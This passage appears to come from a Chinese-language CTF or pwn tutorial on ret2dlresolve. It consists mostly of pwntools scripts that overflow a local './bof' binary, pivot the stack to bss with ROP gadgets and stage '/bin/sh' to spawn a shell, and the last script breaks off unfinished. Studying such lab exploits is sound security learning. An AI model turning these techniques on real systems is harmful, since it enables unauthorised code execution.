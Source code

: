```python
payload1+=p32(read_plt)
payload1+=p32(p_p_p_ret)
payload1+=p32(0)
payload1+=p32(base_stage)
payload1+=p32(100)
payload1+=p32(pop_ebp_ret)
payload1+=p32(base_stage)
payload1+=p32(leave_ret)

binsh_addr=base_stage+80
cmd='/bin/sh\x00'

payload2='aaaa'
payload2+=p32(write_plt)
payload2+='dead'
payload2+=p32(1)
payload2+=p32(binsh_addr)
payload2+=p32(len(cmd))
payload2=payload2.ljust(80,'d')
payload2+=cmd
payload2=payload2.ljust(100,'d')

io.recvuntil('2015~!')
io.sendline(payload1)
sleep(1)
io.sendline(payload2)

io.interactive()
```

### stage2

返回到PLT0，带上index_offset

```python
from pwn import *

io=process('./bof')
elf=ELF('./bof')
context.log_level='debug'

write_plt=elf.plt['write']
read_plt=elf.plt['read']
write_got=elf.got['write']
bss_addr=elf.bss()

stack_size=0x800
base_stage=bss_addr+stack_size

p_p_p_ret=0x0804856c
leave_ret=0x08048481
pop_ebp_ret=0x08048453

payload1='a'*112
payload1+=p32(read_plt)
payload1+=p32(p_p_p_ret)
payload1+=p32(0)
payload1+=p32(base_stage)
payload1+=p32(100)
payload1+=p32(pop_ebp_ret)
payload1+=p32(base_stage)
payload1+=p32(leave_ret)


```